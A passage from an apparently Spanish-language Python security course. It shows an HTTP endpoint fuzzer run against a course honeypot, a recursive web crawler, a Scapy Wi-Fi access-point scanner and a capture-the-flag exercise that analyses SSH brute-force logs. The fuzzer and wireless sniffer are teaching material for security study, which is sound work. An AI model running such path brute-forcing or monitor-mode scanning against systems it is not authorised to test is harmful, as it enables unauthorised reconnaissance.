# Archivo de texto con posibles rutas (una por línea, como: login, user, admin)
archivo_diccionario = "endpoints.txt"

# Métodos HTTP que queremos probar
metodos = ["GET", "POST"]

# Cargamos las posibles rutas desde el archivo
with open(archivo_diccionario, "r") as archivo:
    rutas = [linea.strip() for linea in archivo if linea.strip()]

# Probamos cada ruta con cada método
for ruta in rutas:
    for metodo in metodos:
        url_completa = f"{url_base}/{ruta}"

        try:
            # Enviamos la petición dependiendo del método
            if metodo == "GET":
                respuesta = requests.get(url_completa, verify=False, timeout=5)
            elif metodo == "POST":
                respuesta = requests.post(url_completa, verify=False, timeout=5)

            # 401 y 403 también indican que la ruta existe, aunque esté protegida.
            if respuesta.status_code < 400 or respuesta.status_code in {401, 403}:
                print(f"[{metodo}] {url_completa} - Código: {respuesta.status_code}")

        except requests.RequestException:
            pass  # Un error de conexión no significa que exista una ruta

```

> [!NOTE]
> `verify=False` desactiva la comprobación del certificado HTTPS. Aquí es necesario porque la API de laboratorio usa un certificado autofirmado; **no lo uses contra servicios reales**.
>
> El honeypot de este curso responde `404` a todas las rutas. Por eso el fuzzer no mostrará rutas encontradas, aunque el honeypot sí guardará cada intento en `registro_honeypot.json`.

#### 5. Ejemplo: Crear una araña `crawler_spider.py`
---

Este script básico en Python implementa un "web spider", es decir, un programa que visita una página web y sigue los enlaces que encuentra para visitar otras páginas, hasta una cierta profundidad (nivel). El objetivo es mostrar cómo recorrer sitios web automáticamente y extraer contenido. Utiliza la librería requests para obtener el contenido HTML, BeautifulSoup para analizarlo, y urljoin para construir enlaces completos a partir de enlaces relativos.

> [!NOTE]
> Con `max_depth=2` la araña visita la página inicial, sus enlaces y los enlaces de estos, y se detiene ahí. El conjunto `visited` evita visitar dos veces la misma URL.

**Ver ejemplo completo:** [`examples/crawler_spider.py`](examples/crawler_spider.py)

```python
# Este programa explora un sitio web y sigue enlaces hasta una cierta profundidad.
# Ideal para aprender cómo funciona un "web crawler" simple.

import requests
from bs4 import BeautifulSoup
from urllib.parse import urljoin

# Función principal del "spider" (rastreador)
def simple_spider(start_url, max_depth=2):
    visited = set()  # Conjunto para guardar URLs visitadas y no repetir

    # Función interna recursiva para explorar las páginas
    def crawl(url, depth):
        if depth > max_depth:
            return  # Si se alcanza la profundidad máxima, detenemos la exploración
        if url in visited:
            return  # Si ya visitamos esta URL, la ignoramos

        print(f"Explorando: {url}")
        visited.add(url)  # Marcamos la URL como visitada

        try:
            response = requests.get(url, timeout=10)
            response.raise_for_status()  # Lanza un error para respuestas HTTP 4xx o 5xx
        except requests.RequestException as e:
            print(f"No se pudo acceder a {url}: {e}")
            return

        # Usamos BeautifulSoup para analizar el contenido HTML de la página
        soup = BeautifulSoup(response.text, 'html.parser')

        # Buscamos todos los enlaces (<a href="...">)
        for link in soup.find_all("a", href=True):
            full_url = urljoin(url, link["href"])  # Completamos la URL si es relativa
            crawl(full_url, depth + 1)  # Llamamos recursivamente para seguir ese enlace

    # Iniciamos el rastreo desde la URL proporcionada
    crawl(start_url, depth=0)

# Ejecución principal: define el sitio y empieza a explorar
if __name__ == "__main__":
    # Puedes cambiar esta URL por otra para probar
    start_url = "https://example.com"
    simple_spider(start_url, max_depth=2)

```

### Uso de Python para la monitorización y control de tráfico de Redes

#### 1. Ejemplo: Escáner de APs Wi-Fi avanzado usando Scapy y `oui_list.json`: `scapy_get_aps_around.py`
---

Este script en Python escanea redes Wi-Fi cercanas y muestra el nombre de la red (SSID), su dirección MAC (BSSID) y, si es posible, el nombre del fabricante del dispositivo que la emite, usando un archivo de datos llamado oui_list.json. Los puntos de acceso Wi-Fi (routers, por ejemplo) emiten señales llamadas tramas beacon, que este programa detecta usando la librería scapy. Cada dispositivo tiene una dirección MAC, y los primeros tres bloques (el OUI) indican quién lo fabricó (por ejemplo, TP-Link, Cisco, etc.).

Cuando el programa detecta una de estas señales, extrae el BSSID, obtiene el OUI y lo busca en el archivo oui_list.json para identificar la organización. Esta información se imprime en pantalla. Así, el programa actúa como un escáner de redes Wi-Fi con identificación del fabricante.

<div align="center">

| `A4:C3:F0` | `12:34:56` |
|:---:|:---:|
| **OUI**: identifica al fabricante | Identificador único del dispositivo |

</div>

**Ver ejemplo completo:** [`examples/scapy_get_aps_around.py`](examples/scapy_get_aps_around.py)

- Primero genera la lista OUI con `python3 get_oui_txt.py`. Este comando crea `oui_list.json` con el formato que espera el escáner.

```python
# IMPORTANTE: asegúrate de que la interfaz esté en modo monitor (ej. "wlan0mon") y ejecuta este script como root (sudo)

import json
from scapy.all import sniff
from scapy.layers.dot11 import Dot11, Dot11Beacon, Dot11Elt

# Ruta al archivo JSON con datos OUI
ARCHIVO_OUI = "oui_list.json"

# Interfaz Wi-Fi a usar para el escaneo (ej. "wlan0mon")
INTERFAZ_WIFI = "wlan0mon"

# Cargar los datos OUI desde el archivo JSON
def cargar_datos_fabricantes():
    try:
        with open(ARCHIVO_OUI, "r") as f:
            oui_data = json.load(f)
            # Convertir la lista OUI a un diccionario para búsquedas más rápidas
            return {entry["oui"]: entry["organization"] for entry in oui_data}
    except (IOError, json.JSONDecodeError) as e:
        print(f"Error al cargar datos OUI: {e}")
        return {}

# Extraer la parte OUI (primeros tres octetos) de un BSSID
def extraer_oui_de_bssid(bssid):
    return "".join(bssid.split(":")[:3]).upper()

# Función de callback para procesar paquetes
def procesar_paquete(packet, diccionario_fabricantes):
    # Verificar si el paquete es una trama beacon de un AP
    if packet.haslayer(Dot11Beacon):
        bssid = packet[Dot11].addr2  # Obtener el BSSID (dirección MAC del AP)
        ssid_bytes = packet[Dot11Elt].info
        ssid = ssid_bytes.decode(errors="replace") if ssid_bytes else "SSID Oculto"
        oui = extraer_oui_de_bssid(bssid)
        fabricante = diccionario_fabricantes.get(oui, "Desconocido")

        # Imprimir información del AP
        print(f"Nombre Red: {ssid}")
        print(f"Dirección MAC: {bssid}")
        print(f"Fabricante: {fabricante}")

# Función principal
def main():
    # Cargar los datos OUI
    diccionario_fabricantes = cargar_datos_fabricantes()
    if not diccionario_fabricantes:
        print("No se pudieron cargar los datos OUI.")
        return

    print("Iniciando escaneo Wi-Fi... (Presiona Ctrl+C para detener)")

    # Iniciar captura de tramas beacon 802.11 en la interfaz especificada
    sniff(
        iface=INTERFAZ_WIFI,
        prn=lambda pkt: procesar_paquete(pkt, diccionario_fabricantes),
        store=0,
    )

if __name__ == "__main__":
    main()

```

<a id="reto-final"></a>

## 🚩 Reto final

<p align="center"></p>

Un servidor SSH ha registrado estos intentos de acceso. Con lo aprendido hoy (listas, bucles, `split`, diccionarios y condiciones), escribe un script que:

1. Cuente cuántos intentos **fallidos** ha hecho cada IP.
2. Muestre como **sospechosas** las IPs con 3 o más fallos.
3. Muestre la **flag**: el usuario con el que entró con éxito la IP más sospechosa.

```python
log = [
    "FAIL 203.0.113.7 root",
    "FAIL 203.0.113.7 admin",
    "OK   192.168.1.20 yago",
    "FAIL 198.51.100.4 test",
    "FAIL 203.0.113.7 oracle",
    "FAIL 203.0.113.7 pi",
    "OK   203.0.113.7 backup",
    "FAIL 198.51.100.4 guest",
]
```

<details>
<summary>💡 Pista</summary>

Cada línea se puede trocear con `estado, ip, usuario = linea.split()`. Para contar, usa un diccionario: `fallos[ip] = fallos.get(ip, 0) + 1`.

</details>

<details>
<summary>👀 Ver solución</summary>

```python
fallos = {}
for linea in log:
    estado, ip, usuario = linea.split()
    if estado == "FAIL":
        fallos[ip] = fallos.get(ip, 0) + 1

print("IPs sospechosas:")
mas_sospechosa = None
for ip, total in fallos.items():
    if total >= 3:
        print(f"  ⚠️  {ip} → {total} fallos")
    if mas_sospechosa is None or total > fallos[mas_sospechosa]:
        mas_sospechosa = ip

for linea in log:
    estado, ip, usuario = linea.split()
    if estado == "OK" and ip == mas_sospechosa:
        print(f"🚩 Flag: {usuario}")   # 🚩 Flag: backup
```

</details>

## Acerca del uso de la IA

<p align="center"></p>

Es importante entender que la inteligencia artificial (IA) y las herramientas modernas como Cursor (un editor de código con IA integrada) no están aquí para reemplazar el aprendizaje, sino para potenciarlo. Estas herramientas pueden ayudarte a escribir código más rápido, corregir errores, entender fragmentos complicados y explorar nuevas ideas. Por ejemplo, si no sabes cómo usar una función o librería, puedes pedirle a la IA una explicación o un ejemplo práctico, y eso te ahorra tiempo de búsqueda en internet. Además, ver cómo la IA sugiere soluciones puede enseñarte nuevas formas de pensar el código.

Sin embargo, es fundamental no depender ciegamente de estas herramientas. Aprender programación significa entender el “por qué” y el “cómo” detrás de cada línea de código. Usa la IA como un asistente, no como una muleta. Intenta resolver los problemas por tu cuenta primero, y luego consulta a la IA para comparar soluciones o mejorar tu enfoque.

**Prompts útiles para aprender (no para que lo haga por ti):**

| Situación | Prompt de ejemplo |
|---|---|
| No entiendes un código | *"Explícame línea a línea qué hace este script, como si fuera principiante"* |
| Te sale un error | *"Me da este error: `[pega el error]`. No me des la solución, dime qué significa y dónde mirar"* |
| Ya funciona | *"¿Cómo mejorarías este código para que sea más legible? Explica cada cambio"* |

> [!WARNING]
> Nunca pegues en una IA contraseñas, claves de API, datos de clientes ni resultados de auditorías reales.

- Uso de la aplicación [Cursor](https://cursor.com/) para mejorar el código
- Uso de Copilot en Visual Studio Code

## Referencias

### Cursos

- [Python desde cero para principiantes (mouredev)](https://www.youtube.com/watch?v=Kp4Mvapo5kc)

### Libros

| Recurso | Descripción |
|---|---|
| 📄 [Cheatsheet_Python.pdf](Books/Cheatsheet_Python.pdf) | Guía rápida de referencia de Python |
| 📘 [Python 3 para todos.pdf](Books/Python%203%20para%20todos.pdf) | Manual completo de Python 3 |
| 📗 [Scapy Guide](Books/Scapy_Guide.pdf) | Guía no oficial de Scapy para principiantes |
| 🦈 [WiresharkCheatlist.md](Books/WiresharkCheatlist.md) | Lista de referencia rápida de Wireshark |
| 🗄️ [Python 2.5 para todos.pdf](Books/Python%202.5%20para%20todos.pdf) | *Histórico.* Python 2 ya no tiene soporte; úsalo solo para leer código antiguo |

---
_Autor: Yago Hansen (2025)_
